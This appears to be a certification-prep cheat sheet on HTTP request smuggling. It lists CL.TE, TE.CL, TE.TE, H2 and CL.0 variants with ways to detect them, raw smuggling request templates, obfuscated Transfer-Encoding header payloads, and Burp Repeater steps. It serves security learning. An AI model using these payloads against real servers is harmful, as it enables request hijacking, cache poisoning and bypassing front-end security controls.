 # HTTP Request Smuggling

## Types:

1. HTTP/1.1
    1. CL.TE
    2. TE.CL
    3. TE.TE
2. HTTP/2
   1. H2.CL
   2. H2.TE
3. Browser
   1. CL.0

---

## How to find each type:

1. HTTP/1.1
    1. CL.TE
       - [Using 404 response](https://github.com/leggetth/Burp-Suite-Certified-Practitioner-Prep/blob/main/training/http_req_smuggling_practice.md#confirming-clte-using-404)
    2. TE.CL
       - [Using 404 response](https://github.com/leggetth/Burp-Suite-Certified-Practitioner-Prep/blob/main/training/http_req_smuggling_practice.md#confirming-tecl-using-404)
    3. TE.TE
       - [Using invalid method GPOST](https://github.com/leggetth/Burp-Suite-Certified-Practitioner-Prep/blob/main/training/http_req_smuggling_practice.md#obfuscating-te)
2. HTTP/2
   1. H2.CL
    - Add `Content-Length: 0` to the request
   2. H2.TE
    - Add `Transfer Encoding: Chunked` to the request
    - Then add a 0 before the second request
3. Browser
   1. CL.0
   - When performing the attack, if the response to the follow-up request is normal, then the endpoint is not vulnerable

 ---

## How to exploit each type:

1. HTTP/1.1
    1. CL.TE
       ```
       POST / HTTP/1.1
       Host: vulnerable-website.com
       Content-Length: 13               --> Content length is 13 which includes smuggled
       Transfer-Encoding: chunked    

       0  --> Since it is chunked the 0 terminates the first request, sending smuggled to the backend

       SMUGGLED               
       ```
    2. TE.CL
         ```
       POST / HTTP/1.1
       Host: vulnerable-website.com
       Content-Length: 3               --> Content length is 3 which includes the 8
       Transfer-Encoding: chunked    

       8  --> This is the length of the following request
       SMUGGLED
       0   --> Needs to end in /r/n/r/n
       ```
    3. TE.TE
       - You need to obfuscate the Transfer-Encoding header so that one server does not process it
        ```
        Transfer-Encoding: xchunked
        Transfer-Encoding : chunked
        Transfer-Encoding: chunked
        Transfer-Encoding: x
        Transfer-Encoding:[tab]chunked
        [space]Transfer-Encoding: chunked
        X: X[\n]Transfer-Encoding: chunked
        Transfer-Encoding
        : chunked
2. HTTP/2
   1. H2.CL
    ```
   POST / HTTP/1.1
   Host: vulnerable-website.com
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 0               --> Which tells the backend that smuggled is a second request

   SMUGGLED               
   ```
   2. H2.TE
      ```
       POST / HTTP/1.1
       Host: vulnerable-website.com
       Content-Type: application/x-www-form-urlencoded
       Transfer-Encoding: chunked    
    
       0  --> Since it is chunked the 0 terminates the first request, sending smuggled to the backend
    
       SMUGGLED               
       ```
3. Browser
   1. CL.0
   - Create one tab containing the setup request and another containing an arbitrary follow-up request.
   - Add the two tabs to a group in the correct order.
   - Using the drop-down menu next to the Send button, change the send mode to Send group in sequence (single connection).
   - Change the Connection header to keep-alive.
   - Send the sequence and check the responses.

---

## Other important notes:
- HTTP/1.1 allows for content-length transfer-encoding
- Some servers that do support the Transfer-Encoding header can be induced not to process it if the header is obfuscated in some way.
- HTTP/2 is only vulnerable if the backend supports HTTP/1.1
    - For HTTP/2 attacks the smuggled request must be HTTP/1.1
- You need to manually switch the protocol in repeater
- [Hidden HTTP/2 support](https://portswigger.net/web-security/request-smuggling/advanced)

